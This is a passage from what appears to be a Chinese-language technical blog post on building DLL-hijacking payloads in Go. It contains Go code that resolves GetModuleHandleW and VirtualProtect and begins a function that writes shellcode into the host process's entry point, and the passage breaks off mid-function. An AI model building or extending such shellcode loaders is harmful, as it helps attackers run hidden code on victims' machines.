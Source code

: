 ## Golang与自动生成

我想用Golang编写劫持的dll，这样也方便可以做成在线平台。

### C代码转换为Go

读取PE入口点用来写shellcode，用Windows API
`GetModuleHandle`可以得到PE进程的内存地址，根据内存地址加减偏移就可以得到入口点。

我原本使用了 `github.com/Binject/debug/pe`库，它里面有一个
`pe.NewFileFromMemory()`函数，可以直接从内存中读取，但是它的参数是需要一个
`io`类型，文件的io自身有很多api，但是对内存的io，资料好少。

最后找了很多资料，发现只能自己实现io的接口

    
          1. type ReaderAt interface {
    
      2.     ReadAt(p []byte, off int64) (n int, err error)
    
      3. }
    
    
    

但问题来了， `ReadAt`接口要求我们自己读完了就返回 `io.EOF`，我是从内存空间读的，我不知道什么时候读完。

就这么纠结了好久，虽然现在写的时候想到了，我可以实现这个 `ReadAt`，长度我可以生成模板的时候硬写进去，但又感觉没必要，因为我根据PE的偏移写好了。

直接就不用它的库了，手动根据偏移去寻找入口点。

    
          1. var (
    
      2.     kernel32           = syscall.NewLazyDLL("kernel32.dll")
    
      3.     getModuleHandle    = kernel32.NewProc("GetModuleHandleW")
    
      4.     procVirtualProtect = kernel32.NewProc("VirtualProtect")
    
      5. )
    
      6. func GetModuleHandle() (handle uintptr) {
    
      7.     ret, _, _ := getModuleHandle.Call(0)
    
      8.     handle = ret
    
      9.     return
    
      10. }
    
      11. // 将shellcode写入程序ep
    
      12. func loader_from_ep(shellcode []byte) {
    
      13.     baseAddress := GetModuleHandle()
    
      14.   
    
    
      15.     fmt.Println(strconv.FormatInt(int64(baseAddress), 16))
    
      16.     // pe读dos header
    